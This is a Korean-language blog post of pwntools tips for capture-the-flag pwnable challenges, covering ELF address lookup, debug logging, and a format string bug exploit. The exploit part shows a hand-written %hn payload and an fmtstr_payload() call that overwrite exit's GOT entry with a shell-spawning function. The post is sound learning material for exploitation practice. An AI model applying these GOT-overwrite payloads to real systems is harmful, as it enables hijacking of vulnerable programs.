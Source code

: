 ```yaml
---
layout: post
title:  "Pwntools Usage"
date:   2020-10-01
categories: ["2020","tips","pwnable"]
update:   2020-10-01
comment: true
tags: [tips,pwnable]
---
```


## Pwntools Usage

❗ FSB 문제를 풀다가 새로 알게 된 pwntools의 기능이 있어 정리하고 이참에 pwntools 기능들 배우는 거 있을 때마다 여기에 업데이트 하려고 한다. 

---

### ELF

바이너리의 `got`, `bss` 등 여러 주소를 구할 때 `ELF()`를 쓰면 편하다.

```python
from pwn import *

e=ELF('binary') 
puts_got =e.got['puts'] # get puts got addr (same with plt)
bss_addr = e.bss() # get bss addr
func_addr = e.symbols['func'] # get custom func addr
```

 주로 위 3가지를 많이 쓴다. 주소들을 정수로 반환해줘서 바로 packing에 사용할 수 있다.

---

### DEBUG

pwntools에는 디버깅할 때 유용한 기능도 많이 제공한다.

``` python
from pwn import *

context.log_level="debug" # give useful info for debugging
log.info('some_string') # logging message (much better than print())
```

`context.log_level="debug"`는 python 파일을 실행하고 내가 `send`할 때나 `recv`할 때, 자세한 정보를 보여줘서 디버깅할 때 편하다.

`log.info()`는 그냥 `print()`로 확인하는 거보다 간지나는 로깅 메시지를 남길 수 있다.

가장 중요한 **gdb.attach() & raw_input()** :

> 🚀 참고
>
> [](https://cosyp.tistory.com/229)

내가 저 사람보다 자세히 쓸 자신이 없다 ! 😁

---

### FSB (Format String Bug) with Pwntools

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`Partial RELRO`가 걸려있기 때문에 `got` 주소를 덮어야 겠다고 생각하고 코드를 보면, **FSB**가 발생해서 `got`를 덮을 수 있다. 쉘을 따주는 함수도 있었기 때문에 그 함수 주소로 main함수 마지막에 실행하는 `exit`함수의 `got`를 덮어 쉘을 따려고 했다. 

나는 평소에 **FSB**를 사용할 때 `%hn`으로 2바이트씩 안 덮고 한꺼번에 `%n`로 4바이트를 덮었다. 근데 이 문제에서는 그렇게 하니까 안 된다. 이유는 정확히는 모르겠지만 시간제한 때문인 거 같다.. 그래서 `%hn`으로 2바이트씩 덮어줬고 성공했다.

즉 페이로드가 다음과 같다:

```python
payload+=p32(exit_got+2)
payload+=p32(exit_got)
payload+="%2044c"
payload+="%1$hn"
payload+="%32261c"
payload+="%2$hn"
```

**But** pwntools에는 이 페이로드를 알아서 짜주는 짱짱 기능이 있었다. 😂

``` python
# offset = 1, overwrite exit_got to get_shell
payload=fmtstr_payload(1,{exit_got:get_shell})
```

`fmtstr_payload()`라는 함수에 offset과 덮을 함수를 주면 알아서 페이로드를 짜준다.... 미쳐따 그냥

여기서 offset은 `ESP+0x4*(offset)`이라고 생각하면 된다. 즉 `%x`를 했을 때 첫번 째 `%x`에서 buf의 시작지점의 문자열이 출력되었기 때문에 offset이 1이다.


